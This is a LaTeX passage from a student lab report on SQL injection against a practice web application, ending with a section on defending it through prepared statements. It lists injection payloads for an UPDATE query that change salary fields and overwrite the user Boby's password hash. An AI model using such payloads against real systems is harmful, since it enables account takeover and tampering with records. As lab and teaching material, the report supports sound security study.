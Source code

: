 \documentclass[12pt,reqno]{amsart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
To recap the injections provided in this section, we present listing \ref{lst:2}.
\begin{figure}[h]
\begin{lstlisting}[style=SQLStyle, firstnumber=1]
UPDATE credential 
SET
	/* any of these fields can be used for injection */
	nickname='$input_nickname', /* I have used this one in my examples */
	email='$input_email',
	address='$input_address',
	Password='$hashed_pwd',
	PhoneNumber='$input_phonenumber'
WHERE ID=$id;

/* Injection for Task 3.1
hi', salary='100001
*/

/* Injection for Task 3.2
boom', salary='1' WHERE name='Boby' --  
*/

/* Injections for Task 3.3
 ` OR OR --         (to cause syntax error)
boom', Password='c6efaf27673db4f7d2de52c0ab20a0655112cbad' 
	WHERE name='Boby' -- 
*/
\end{lstlisting} 
\caption{Instructions related to section 2.}
\label{lst:2}
\end{figure}

\newpage
\section{Defending with Prepared Statements}
The provided laboratory included \code{safe\_home.php}, which implements the prepared statement defence in the home page. It also has \code{safe\_edit\_backend.php} which is a safe target for the edit profile HTML form. By modifying the frontend codes \code{index.html} and \code{unsafe\_edit\_frontend.php} files, we can change them to use the safe codes instead. Note that for these edits to take place we restart the Apache server.

First we try the injection to bypass the login screen, shown in figure \ref{fig:aa}.

\begin{figure}[h]
\includegraphics[width=\linewidth]{screenshots/SQL_SAFE_LOGIN.png}
\caption{Attempting the injection from figure \ref{fig:2}, notice the injection on query parameters. It does not work, and instead we get ``Account does not exist'' message.}
\label{fig:aa}
\end{figure}
\end{document}
